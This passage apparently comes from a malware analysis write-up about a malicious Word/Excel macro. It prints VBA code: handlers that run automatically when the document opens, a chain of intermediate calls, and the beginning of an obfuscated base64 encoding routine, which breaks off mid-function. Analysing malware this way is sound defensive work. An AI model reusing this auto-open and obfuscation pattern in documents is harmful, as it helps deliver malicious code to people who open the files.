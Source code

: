 <h6> We can see the both functions for auto-open the macro in the reading of the document for the Word and Excel document. This is for a common code for the both vectors or for reduce the rate of the detection, hard to say it.</h6>

``` VBA
Sub AutoOpen()
 AddSpace
End Sub

Private Sub Workbook_Open()
 AddSpace
End Sub
```

<h6>This used an intermediate function for execute the main function.</h6>

``` VBA
Sub AddSpace()
 RemoveParagraph
End Sub
```

<h6> The first two functions used by the macro are for encoded and decode in base 64 in using multiples interations of the data. This code can be seen in a post of a code forum seven years ago (cf links).</h6>

``` VBA
Public Function Encode64(sString As String) As String
 Dim bTrans(63) As Byte, OOOPOOOOPOOOO8(255) As Long, OOOPOOOOPOOOO16(255) As Long, bOut() As Byte, bIn() As Byte
 Dim var_B As Long, lTrip As Long, iPad As Integer, lLen As Long, i As Long, var_A As Long, lOutSize As Long
 For i = 0 To 63
  Select Case i
   Case 0 To 25
    bTrans(i) = 65 + i
   Case 26 To 51
    bTrans(i) = 71 + i
   Case 52 To 61
    bTrans(i) = i - 4
   Case 62
    bTrans(i) = 43
   Case 63
    bTrans(i) = 47
  End Select
 Next i
 For i = 0 To 255
  OOOPOOOOPOOOO8(i) = i * 256
  OOOPOOOOPOOOO16(i) = i * 65536
 Next i
 iPad = Len(sString) Mod 3
 If iPad Then
  iPad = 3 - iPad
  sString = sString & String(iPad, Chr(0))
 End If
 bIn = StrConv(sString, vbFromUnicode)
 lLen = ((UBound(bIn) + 1) \ 3) * 4
 i = lLen \ 72
 lOutSize = ((i * 2) + lLen) - 1
 ReDim bOut(lOutSize)
 lLen = 0
 For var_B = LBound(bIn) To UBound(bIn) Step 3
  lTrip = OOOPOOOOPOOOO16(bIn(var_B)) + OOOPOOOOPOOOO8(bIn(var_B + 1)) + bIn(var_B + 2)
  i = lTrip And 16515072
  bOut(var_A) = bTrans(i \ 262144)
  i = lTrip And 258048
  bOut(var_A + 1) = bTrans(i \ 4096)
```